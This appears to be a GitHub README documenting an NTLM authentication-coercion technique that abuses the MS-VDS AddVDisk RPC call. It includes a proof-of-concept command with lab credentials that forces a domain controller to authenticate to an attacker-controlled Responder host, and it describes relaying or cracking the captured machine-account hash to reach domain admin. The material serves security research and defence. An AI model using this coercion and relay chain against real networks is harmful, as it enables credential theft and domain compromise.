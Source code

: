 # MS-VDS - Remote call to IVdsVdProvider::AddVDisk (opnum 5)

## Summary

+ **Protocol**: [[MS-VDS]: Virtual Disk Service (VDS) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db)

+ **Protocol UUID**: 118610b7-8d94-4030-b5b8-500889788e4e

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`IVdsVdProvider::AddVDisk`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/d700e1fb-ff7e-4822-9e73-487d3f0fd6f0)

+ **Function operation number**: `5`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-VDS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) protocol (with uuid `118610b7-8d94-4030-b5b8-500889788e4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-VDS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-VDS]: Virtual Disk Service (VDS) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) and allows to call RPC functions of this protocol. We will then call the remote [`IVdsVdProvider::AddVDisk`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/d700e1fb-ff7e-4822-9e73-487d3f0fd6f0) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVdsVdProvider::AddVDisk('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT AddVDisk(
   [in] PVIRTUAL_STORAGE_TYPE VirtualDeviceType,
   [in, string] LPWSTR pPath,
   [out] IVdsVDisk** ppVDisk
 );
```

## References

+ Documentation of protocol [MS-VDS]: Virtual Disk Service (VDS) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db

+ Documentation of function `IVdsVdProvider::AddVDisk`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/d700e1fb-ff7e-4822-9e73-487d3f0fd6f0